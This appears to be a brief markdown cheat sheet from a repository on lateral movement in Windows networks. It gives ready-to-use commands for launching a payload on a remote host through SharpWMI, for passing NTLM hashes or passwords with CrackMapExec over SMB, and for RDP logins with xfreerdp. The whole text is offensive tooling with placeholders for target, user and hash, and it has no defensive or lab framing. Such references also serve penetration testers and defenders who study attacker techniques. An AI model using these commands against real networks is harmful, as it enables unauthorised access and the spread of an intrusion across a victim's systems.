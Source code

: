 # Lateral Movement Techniques

## SharpWMI

https://github.com/GhostPack/SharpWMI

Launch payload:

```
SharpWMI.exe action=create computername=<hostname> command="C:\path\to\exe"
```

## Crackmapexec

Pass the hash of a local account, such as the local administrator account

```
cme smb <target> -u <username> -H '<NTLM_Hash>' --local-auth``
```

Password authentication with a domain account. In some environments you won't need to supply the domain name. It'll just automatically populate the field.

```
cme smb <target> -u <username> -p '<password>' -d <domain>
```

## xfreerdp

xfreerdp is usually used for lateral movement through RDP when NLA is enforced because rdesktop does not support NLA. Another plus about xfreerdp is thaty you can use an NTLM hash to authenticate.

```
xfreerdp /u:user /p:password /v:host
```